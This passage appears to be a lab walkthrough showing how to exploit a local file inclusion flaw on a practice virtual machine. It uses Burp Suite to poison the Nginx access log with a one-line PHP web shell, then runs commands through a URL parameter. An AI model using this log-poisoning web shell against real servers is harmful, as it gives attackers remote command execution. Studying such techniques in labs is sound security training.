



3.4 Exploit LFI
Local file inclusion (LFI)
A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. More info at Wikipedia.
a) Let’s capture the request of the “Nginx Access log” file using Burpsuite. we will use LFI to exploit Nginx access log.
• Open Burp Suite.
• Go to “Proxy->Intercept”.
• Make sure the button “Intercept is on”.
• Navigate to http://192.168.12.59/thankyou.php?file=/var/log/nginx/access.log.
NOTICE
Before going to the link change the “Preferences” in your Browser.
Select the Manual proxy configuration radio button. Enter 127.0.0.1 in the HTTP Proxy field and enter 8080 in the Port field. Make sure the Use this proxy server for all protocols box is checked. Delete anything that’s in the No proxy for field. Save the settings.

b) Inject on Burp Suite the following code to get the command line access by making a GET request to the Server.
<?php system($_GET['cmd']) ?>
You'll see the following in Burp Suite.

c) Click the button “Intercept is on” to switch it “off”.
d) Verify wheteher it's working or no.
Add a parameter to the URL i.e “&cmd=id”. So, the URL is http://192.168.12.59/thankyou.php?file=/var/log/nginx/access.log&cmd=id
Output:

We can get “id” and other data.
“uid=33(www-data) gid=33(www-data) groups=33(www-data)"
NOTICE:
If you get to this point and you can’t see the logs, try to reinstall the Machine on Virtual Machine and go to the page again..
 Index
Index